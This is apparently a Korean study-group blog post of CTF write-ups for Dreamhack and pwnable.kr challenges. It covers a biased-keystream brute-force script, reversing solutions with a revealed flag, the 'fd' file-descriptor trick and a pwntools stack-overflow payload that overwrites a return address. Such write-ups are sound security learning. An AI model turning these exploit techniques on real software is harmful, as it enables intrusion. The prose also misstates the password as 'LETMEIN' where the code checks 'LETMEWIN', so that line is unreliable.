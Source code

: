 ```yaml
---
title: "[CAUTION] 스터디 - 10"
categories:
  - study
tags:
  - dreamhack
  - pwnable
toc: true
toc_sticky: true
toc_label: "스터디 - 10"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/caution2.jpg
---
```


💡 Caution 스터디 10회차(5월 첫째 주)
{: .notice--warning}

# 암호학 - 1

**[CS448](https://dreamhack.io/wargame/challenges/452/)**
    
```python
def encrypt(s, k):
    res = ""
    if k <= len(s):
        _print("[!] key shold be larger then len(pt) for safty!!")
        return ""
    for i, c in enumerate(s):
        enc = (get_random_u8() + key * i) % 0xff
        enc = ord(c) ^ enc
        res += hex(enc)[2:].rjust(2, "0")
    return res
```

위의 코드와 같은 방식으로 암호화를 수행한다.

취약점이 발생하는 부분은 %0xff 이다.

```key stream : (get_random_u8() + key * i) % 0xff``` 부분을 잘 생각해 보면 그 결과로 0~254 까지의 결과가 나오는 것을 알 수 있다.

이것이 왜 문제인지 생각해보자. 임의의 평문 'X'에 대해서 암호화를 통해서 나올 수 있는 모든 결과는 8bit 결과이므로 00000000 ~ 11111111 로 총 256개이다.

근데 현재 키 스트림은 0~254까지의 범위를 가지므로 255개의 키 스트림이 있다.

즉, 임의의 문자 'X'에 대해서 계속 암호화를 수행하면 'X' xor '11111111' 의 결과가 누락되게 된다.

그러면 우리는 하나의 글자에 대해서 계속 암호화를 수행하면서 어떠한 결과가 나왔는지를 전부 기록한 뒤에, 0-255중에 한 번도 안나온 결과를 찾으면 된다. 그러면 그 숫자가 바로 
'X' xor '11111111'이 되는 것이다.

이를 코드로 구현하면 다음과 같다. 모든 flag 하나하나에 대해서 bruteforce를 하다보니, 결과가 나오는데 시간이 꽤 걸린다. 

```python
from pwn import *


p = remote('host1.dreamhack.games',10819)

key = 255

p.sendlineafter('>> ','3')
p.sendlineafter('key >> ','255')
p.recvuntil('result : ')

enc_flag = p.recvline()
flag_len = len(enc_flag) // 2
flag_set = [list(range(256)) for _ in range(flag_len)]
flag = [0 for x in range(flag_len)]

while True:
    p.sendlineafter('>> ','3')
    p.sendlineafter('key >> ','255')
    p.recvuntil('result : ')
    
    enc_flag = bytes.fromhex(p.recvline()[:-1].decode())

    for i in range(flag_len):
        # flag_set에서 찾는 글자 하나씩 삭제
        if flag_set[i].count(enc_flag[i]) == 1:
            flag_set[i].remove(enc_flag[i])
        
        # 한개 남은 결과에 255 xor 하면 원래 글자
        if len(flag_set[i]) == 1:
            flag[i] = chr(flag_set[i][-1] ^ key )

    print([len(x) for x in flag_set])    
    if 0 not in flag:
        break
            
print(''.join(flag))

```


![image](https://user-images.githubusercontent.com/33647663/167166094-8731c708-f5ae-4399-b1f7-a965f2af6329.png)


# 리버싱 - 1
**[rev-basic-0](https://dreamhack.io/wargame/challenges/14/)**

리버싱 기초문제

IDA로 열면 바로 strcmp가 보임

![image](https://user-images.githubusercontent.com/33647663/167167482-413fd717-1ab8-453a-84bd-3545fbd6307d.png)


# 리버싱 - 2
**[rev-basic-2](https://dreamhack.io/wargame/challenges/16/)**

![image](https://user-images.githubusercontent.com/33647663/167168558-de394732-9760-4364-b18b-12707b202817.png)


각각의 input(a1)에 대해서, aC[] 배열과 비교를 하고 있다.
총 길이는 18글자 이며, aC배열은 다음과 같다.

![image](https://user-images.githubusercontent.com/33647663/167168899-099070a1-4fb3-4078-bc26-6c82a93ac5ae.png)

데이터 타입을 array로 바꾸면 더 보기 쉽다.

![image](https://user-images.githubusercontent.com/33647663/167169712-de730a70-d4b6-44e2-8287-d016aecbc849.png)

마지막 null문자를 제외하면 총 17글자로 
flag는 'Comp4re_the_arr4y'이다.


# 시스템 - 1

**[pwnable.kr](https://pwnable.kr/play.php) [fd]**

문제의 코드는 다음과 같다.

```c
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

argv[1] - 0x1234 값을 fd로 하여 해당 fd로 데이터를 읽어온다.

stdin 이 fd 0 이므로 argv[1]로 0x1234인 4660 데이터를 넘겨준다.

넘겨주면 사용자의 입력값을 기다리게 되고, 이때 비교 문자열인 'LETMEIN'을 입력해 주면 flag를 획득할 수 있다.

![image](https://user-images.githubusercontent.com/33647663/167191157-e2c61f67-9c03-48e7-baca-1b795ae87d48.png)



# 시스템 - 2

**[Return Address Overwrite](https://dreamhack.io/wargame/challenges/351/)**
메인함수를 시작할때 스택 상태는 아래와 같다


![image](https://user-images.githubusercontent.com/33647663/167182991-88bc7d37-2f97-4069-aae8-dffe211841a0.png)

그림으로 표현해보면 스택 상태는 다음과 같다

![image](https://user-images.githubusercontent.com/33647663/167183968-75242f51-75c8-469a-b592-59392ff0ed25.png)

buf에 입력 받을때 bof 취약점이 있으니, 56byte는 더미로 채워주고 8 byte를 get_shell() 함수의 주소를 입력하여 익스플로잇 한다.

get_shell()의 주소는 다음과 같다.

![image](https://user-images.githubusercontent.com/33647663/167184372-2064a6d2-7f00-4bf1-b8d0-1ee0331d7bcf.png)

쉘 코드는 다음과 같이 작성해 준다.

```python
from pwn import *

p = remote('host1.dreamhack.games',21598)
context.log_level= 0

# get_shell() : 0x00000000004006aa
p.recvuntil(b'Input: ')
payload = 'A' * 0x30
payload += 'B' * 8
payload += '\xaa\x06\x40\x00\x00\x00\x00\x00'

p.sendline(payload)
p.interactive()
```


실행하면 다음과 같이 플래그를 획득할 수 있다.

![image](https://user-images.githubusercontent.com/33647663/167182774-e216d7eb-0a9c-4465-b75f-5b9cc969751b.png)